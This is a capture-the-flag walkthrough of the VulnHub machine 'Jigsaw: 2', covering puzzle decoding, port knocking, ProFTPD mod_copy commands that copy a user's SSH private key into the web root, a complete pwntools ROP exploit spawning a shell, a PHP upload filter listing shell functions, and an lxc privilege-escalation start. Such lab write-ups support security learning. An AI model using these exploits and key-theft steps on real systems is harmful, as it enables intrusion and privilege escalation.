<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/wintermute-1,239/">Jigsaw: 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> Zayotic</a></h4>

***

jigsaw: 2 is out. This machine is insane difficulty. Should be on @VulnHub
soon.

***

## Nmap



Hmm...there are quite a few ports open. But we'll just start with port 80 running HTTP service.

***

## HTTP


Okay so we need to find `all the pieces`. COOL!!

If we look at the source of that page



we can see a file named `main.js`.

```javascript
var _0x10f6=['/w3lc0m3707h364m3'];
(function(_0x25c635,_0x48fe9f){var _0x417769=function(_0x34a6e6){while(--_0x34a6e6){_0x25c635['push'](_0x25c635['shift']());
}};
_0x417769(++_0x48fe9f);
}(_0x10f6,0x180));
var _0x47d4=function(_0x223c7f,_0x35ee0d){_0x223c7f=_0x223c7f-0x0;
var _0x274da8=_0x10f6[_0x223c7f];
return _0x274da8;
};
function main(){var _0x2f10d1=_0x47d4('0x0');var _0x85d790=encodeURI(_0x2f10d1);}
main();

```

In here we can see `/w3lc0m3707h364m3` which is basically saying `Welcome to the game` in [leet](https://en.wikipedia.org/wiki/Leet). But it's also mean there has to be a page of that URL.

If we visit `http://192.168.56.110/w3lc0m3707h364m3/` we'll see again an image just like a main website.


Since I don't have any more path to go down to. I started dirsearch on the `http://192.168.56.110/w3lc0m3707h364m3/`

```bash
➜ python dirsearch.py -f -e html,php,tar.gz,txt,xml,zip -u http://192.168.56.110/w3lc0m3707h364m3/ -w ../lists/big.txt
```



And if we visit the `/game.txt` we'll get name of some jpg files.



```
64m31m463zp41n.jpg
64m31m463zy44p41n.jpg

d0zk0zsi4s07m3w0s3
```

* `64m31m463zp41n.jpg` - `game image z pain`
* `64m31m463zy44p41n.jpg` - `game image zyaa pain`
* `d0zk0zsi4s07m3w0s3` - `dozkozsiasotmewose` (no idea what it is)

I dowloaded both of the images. They seemed like a single image partitioned into 2 so I merged them to see what it was.


it says `0663`, I am not sure what it could be. Definitely not a port number.
Leaving it as is I decided to look the 3rd name but couldn't find it.

So I ran `strings` command on the images that I found and I got two strings


```
p4as1aqz3m3cc - passiaqzemecc
y375cy4l4a3j64z3 - yetscyalaaejgaze
```

But they also seemed like a dead end because these words didn't made any sense to me.

@Zayotic gave me a hint that check out `rot13 and ceaser cipher`.

After doing rot13 on those two strings I got
* `p4as1aqz3m3cc` - `c4nf1ndm3z3pp` - `can find me zepp`.
* `y375cy4l4a3j64z3` - `l375pl4y4n3w64m3` - `lets play a new game`
* And doing ceaser shift of 21 on `d0zk0zsi4s07m3w0s3`
    - `y0uf0und4n07h3r0n3` - `you found another one`

And If we try to visit `http://192.168.56.110/y0uf0und4n07h3r0n3/` we'll get another image.


In the source of the page I found another page link.



`/m3rcyup0ny0u`

Before we visit that page we need to take the pieces from current page. If you zoom in the eye of the character you'll see two strings there.



The left eye says `600dj0bp13c3f0und`(`Good job piece found`) and the right eye says `y4y4n07h3r0n36r347`(`yay another one great`)

I tried those URL with `.jpg` extension and found two more images. I combined them and it gave us


There we also a set of in those images, `p0z3s1aqz3` and `u3ycz3y1s3`. Rot13 those strings and we get

* `p0z3s1aqz3` - `c0m3f1ndm3`
* `u3ycz3y1s3` - `h3lpm3l1f3`


***

Now let's check out the `http://192.168.56.110/m3rcyup0ny0u/`.


There was nothing in the source of the page but when I ran strings on that image I got something.


```
66 31 6e 34 6c 6c 79 79 30 75 6d 34 64 33 31 37 68 33 72 33 2e 6a 70 67
eTR5eTB1ZDFkMTdidTcxNzYzNzV3MHI1Ny5qcGc=
```

When I converted that hex to ascii I got `f1n4llyy0um4d317h3r3.jpg`(`finally you made i there`) and decoding that base64 gave `y4yy0ud1d17bu7176375w0r57.jpg`(`yay you did it but it gets worst`)

Again some images. Let's see what's in those images. I ran`strings` command on `f1n4llyy0um4d317h3r3.jpg` and `y4yy0ud1d17bu7176375w0r57.jpg` file.

After doing that I got:

* `p0z3cy4lj17uz3` in `f1n4llyy0um4d317h3r3.jpg`
    - rot13 gives `c0m3pl4yw17hm3`(`come play with me`)
* `w1654jp4au4px700` in `y4yy0ud1d17bu7176375w0r57.jpg`
    - rot13 gives `j1654wc4nh4ck700`(`jigsaw can hack too`)

I tried visiting them as another page or `.jpg` file but they gave 404.

So I just decided to merge the images and then we'll merge this new image to the existing merged images to see the complete image.

After merging the `f1n4llyy0um4d317h3r3.jpg` and `y4yy0ud1d17bu7176375w0r57.jpg` I got


But If we try to combine the old and new merged image we get


Okay so we have 3 sets of number like `666` `066` and `3432`. I tried them as the password for `jigsaw` but it didn't worked. Then @Zayotic said `knock knock` meaning We need to do the port knocking.

First I tried `666, 066, 3432` but got nothing. Then I tried `066 666 3432` and I got another port open.

```bash
➜ for x in 066 666 3432; do nmap -Pn --max-retries 0 -p $x 192.168.56.110; done
```



Now if we do nmap scan again we'll see FTP i.e port 21 open.



Now before we check it out there is something more interesting. So far we've found 6 `.jpg` files and every file had a string in it. If we combine those strings in order we found and rot13 them we'll get another string.

* The original strings combine
```
p4as1aqz3m3ccy375cy4l4a3j64z3p0z3s1aqz3u3ycz3y1s3p0z3cy4lj17uz3w1654jp4au4px700
```

* After rot 13
```
c4nf1ndm3z3ppl375pl4y4n3w64m3c0m3f1ndm3h3lpm3l1f3c0m3pl4yw17hm3j1654wc4nh4ck700
```

* In english
```
can find me zepp lets play a new game come play with me help me life come play with me jigsaw can hack too
```

But the interesting part is that if we typed the rot13 decode string as a URL it will give us another page.



***

## User login

The upload form we found only allowed jpg/png file types. Not only that it was also checking the file data in sometime. So I tried to bypass the image check with [this](https://github.com/xapax/security/blob/master/bypass_image_upload.md) method but even that didn't worked.



Let's focus on the FTP port we found. It's running version `1.3.5` which vulnerable to mod copy.



But I still couldn't figure out how to use them to get a shell. Then [@4ndr34z](https://twitter.com/4ndr34z) gave me a hint saying `The upload site is just a hint. Giving you the paths you need to do mod copy`.

That's when I realized what I was supposed to do.



* `site cpfr /home/jigsaw/.ssh/id_rsa`: copy the ssh key.
* `site cpto /var/www/html/c4nf1ndm3z3ppl375pl4y4n3w64m3c0m3f1ndm3h3lpm3l1f3c0m3pl4yw17hm3j1654wc4nh4ck700/keyz`: copy it to the said path.

Now if we visit that path via HTTP we'll get the private key for `jigsaw`



I copied the key to a file named `keyz` and then did `chmod 600 keyz` and used it to login as `jigsaw`.



__NOTE__: If you want to know in detail how `mod_copy` exploit for FTP worked then read [my writeup for symfonos2](https://mzfr.github.io/symfonos2#extra)

__NOTE__: Copying jigsaw's SSH key directly just by guessing the path will not work after __28/07/2019__. Because when I told the author about it he edited the name of the `id_rsa` to `jigkey`. So if you want to follow my way then change the name of `id_rsa` to `jigkey` in you copy path. But again this is the `guessy way` and not the `intended` way.

To know other methods to get SSH key read the [Getting SSH key](#getting-ssh-key).

***

## Privilege escalation

I grabbed the enumeration script from my system and ran it.



I found out that `jigsaw` user is a `sudoer`



And I found a suspicious binary



We are supposed to exploit this ROP binary to get a shell with `uid=0`

With the help of [@Robin](https://d4mianwayne.github.io/) and [@kileak](https://kileak.github.io/) I was able to spwan a shell but couldn't get the `Setuid` working.

```python
#!/usr/bin/python
from pwn import *
import sys
import warnings
warnings.filterwarnings("ignore")

HOST = "192.168.184.129"
PORT = 22

def exploit(r):
    POPRDI = 0x00000000004005b3
    POPRSI15 = 0x4005b1

    payload = "A"*208
    payload += p64(0x600500)
    payload += p64(POPRDI)
    payload += p64(e.got["puts"])
    payload += p64(e.plt["puts"])
    payload += p64(e.symbols["game"])

    r.recvline()
    r.sendline(payload)

    r.recvline()

    PUTS = u64(str(r.recv(6)).ljust(8, "\x00"))
    libc.address = PUTS - libc.symbols["puts"]

    log.info("PUTS      : %s" % hex(PUTS))
    log.info("LIBC      : %s" % hex(libc.address))

    payload = "A"*208
    payload += p64(0x600500)
    payload += p64(POPRDI)
    payload += p64(0)
    payload += p64(libc.symbols['setuid'])
    payload += p64(POPRDI)
    payload += p64(next(libc.search("/bin/sh")))
    payload += p64(POPRSI15)
    payload += p64(0)
    payload += p64(0)
    payload += p64(libc.symbols["system"])

    r.recvuntil("? \n")
    r.sendline(payload)
    r.interactive()

    return

if __name__ == "__main__":
    e = ELF("game")
    libc = ELF("libc.so.6")

    r = ssh(host=HOST, port=PORT, user="jigsaw", keyfile="keyz")
    r.connected()
    s = r.run("game")
    exploit(s)
```

__NOTE__: This exploit only spwan shell but not as root. If you end up writing the exploit that gives you shell with root please let me know :-)

I ended up giving this away this path of rooting this machine. Instead I rooted the machine the other way.

Check out the [Privilege escalation with lxc](#privilege-escalation-with-lxc) section to know how I rooted the machine.

***

# Extra

## Getting SSH key

This is continuation from the point where you've find the `/c4nf1ndm3z3ppl375pl4y4n3w64m3c0m3f1ndm3h3lpm3l1f3c0m3pl4yw17hm3j1654wc4nh4ck70` directory.

We first copy the `index.php` file to see how it's working. This will give us a hint on how to bypass the file upload.



Since copying was succesful we can now visit `http://192.168.184.128//c4nf1ndm3z3ppl375pl4y4n3w64m3c0m3f1ndm3h3lpm3l1f3c0m3pl4yw17hm3j1654wc4nh4ck700/code.txt` to see the code of that `index.php`

```html
<html>
<head>
<title>File Uploader</title>
<style>
body {  background-image: url(jigsaw.jpg);
    background-repeat: no-repeat;
    background-position: center;
    background-attachment: fixed;
    background-color: black;
    color: red;
 }
</style>
</head>
<body>
<center><br /><br />
<?php

function WAF($content) {
    $signatures = array(
        '/\/\*<\?php \/\*\*\//i' => 'Meterpreter payload detected',
        '/eval/i' => 'Eval php function detected',
        '/base64_decode/i' => 'Base64_decode php function detected',
        '/fopen/i' => 'fopen php function detected',
        '/system/i' => 'system php function detected',
        '/passthru/i' => 'passthru php function detected',
        '/exec/i' => 'exec function php detected',
        '/pcntl_exec/i' => 'pcntl_exec php function detected',
        '/popen/i' => 'popen php function detected',
        '/fsockopen/i' => 'fsockopen php function detected',
        '/proc_open/i' => 'proc_open php function detected',
        '/fclose/i' => 'fclose php function detected'
    );
    foreach($signatures as $signature=>$reason) {
        if(preg_match($signature, $content)) {
            return "No. Signature: " . $reason;
        }
    }
    return true;
}

$validextensions = array("jpeg", "jpg", "png", "gif");
if(isset($_FILES['file']['name'])) {
    if(!$_FILES['photo']['error']) {
        $temporary = explode(".", $_FILES["file"]["name"]);
        $file_extension = end($temporary);
        if ($_FILES["file"]["size"] > 100000) {
            Print "Error: File size too large.";
        } elseif ((($_FILES["file"]["type"] == "image/png")
            || ($_FILES["file"]["type"] == "image/jpg")
            || ($_FILES["file"]["type"] == "image/jpeg")
            || ($_FILES["file"]["type"] == "image/gif"))
            && in_array($file_extension, $validextensions)){

            $contents = file_get_contents($_FILES['file']['tmp_name']);
            $waf = WAF($contents);
            if($waf!==true) {
                print "Error: ".$waf;
            } else {
                if(exif_imagetype($_FILES['file']['tmp_name'])!==false) {
                    // flag1{e283a39d3a93ff2685e2ce1b5d1cebe6}
                    $new_file_name = substr( md5($_FILES['file']['name']), 0, 12);
                    move_uploaded_file($_FILES['file']['tmp_name'], 'uploads/'.$new_file_name.".".$file_extension);
                    print "File successfully uploaded.\n";
                } else {
                    print "Error: Invalid file data.";
                }
            }
        } else {
            print "Error: Invalid file type.";
        }

    } else {
        print "Error uploading file.";
    }
}

?>
<form id="Upload" action="" enctype="multipart/form-data" method="post">
    <p>
        <input id="file" type="file" name="file">
    </p>

    <p>
        <input id="submit" type="submit" name="submit" value="Upload">
    </p>
</form>
</center>
</body>
</html>
```
__I wrote this part after somedays and by then my VM had some issues and I had no plans of downloading it again. So from this point ahead I can't show you anything. Sorry__

The author said that we can upload a file which have `.gif98` header in it.
Read [bypass_image_upload](https://github.com/xapax/security/blob/master/bypass_image_upload.md) to know how to do it.

The real intended way of getting the SSH key is kinda long and weird(atleast for me)

Another way to get the SSH is by [Mod copy with metasploit](#mod-copy-with-metasploit)

### Mod copy with metasploit

[@4ndr34z](https://twitter.com/4ndr34z) found this way to get the key, which also involves the guessing the path but uses metasploit to do it.

He used `proftpd_modcopy_exec` exploit on metasploit with the following options:



This will give you a shell which you can use to get the SSH keys and then login via SSH

__Note__: This method didn't worked for me because I kept getting timeout error while connecting to FTP.

## Privilege escalation with lxc

There is `lxc` installed on the machine. And if we search for the exploit on searchsploit we'll find the one for `ubuntu 18.04`.



I downloaded that exploit followed the steps mentioned in it.

* Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]

* Build alpine => bash build-alpine (as root user) [Attacker Machine]
